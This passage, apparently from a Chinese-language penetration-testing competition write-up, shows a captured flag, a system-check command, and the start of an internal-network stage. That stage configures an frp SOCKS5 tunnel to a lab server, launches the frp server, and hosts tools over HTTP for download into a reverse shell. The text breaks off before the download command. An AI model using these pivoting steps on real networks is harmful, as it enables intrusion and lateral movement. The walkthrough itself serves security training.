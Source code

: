 ```
flag{B9CF-CBAF-76F0-7C31-F3AA-AE2C-D6E6-C2BD}
```

查看系统结构：

```
uname -a
```

![image-20221109152056579080-1669009349771314.png](img/典型企业生产环境渗透赛 Local.assets/e16bb785bbbceebfc065a142dd5f783b.png)

#### 阶段二：内网服务区渗透测试

##### 任务5：搭建内网隧道(T1090 - 连接代理、T1572 - 隧道协议)

```
本场景的第5个任务是使用代理工具搭建隧道连接内网。

frp是一个开源、简洁易用、高性能的内网穿透和反向代理软件，支持tcp, udp, http, https等协议。

该任务可以通过以下操作完成。
```

进入`Kali_tools`主机的`/root/Desktop/Tools/frp/frp_0.37.1_linux_amd64/`目录，修改`frpc.ini`文件为如下内容：

```
[common]
server_addr = 99.99.99.100
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```

![image-20221121095954396890-1669009351005809.png](img/典型企业生产环境渗透赛 Local.assets/4b33bc36cb2f2804d911145fc39683f1.png)

在`/root/Desktop/Tools/frp/frp_0.37.1_linux_amd64/`目录下打开终端，执行命令启动代理服务端：

```
chmod +x frps

./frps -c ./frps.ini
```

![image-20221121095926797138-1669009352216397.png](img/典型企业生产环境渗透赛 Local.assets/698f4918d52e7d5adc2e0bd5c7651df4.png)

在`/root/Desktop/Tools/frp/frp_0.37.1_linux_amd64/`目录下打开新的终端，执行命令建立http服务：

```
python3 -m http.server 8000
```

![image-20221121100040466457-1669009353451047.png](img/典型企业生产环境渗透赛 Local.assets/fc31e5b5c3edf6f1a42bf0cf29ee90ce.png)

在反弹的shell中执行命令下载代理工具：
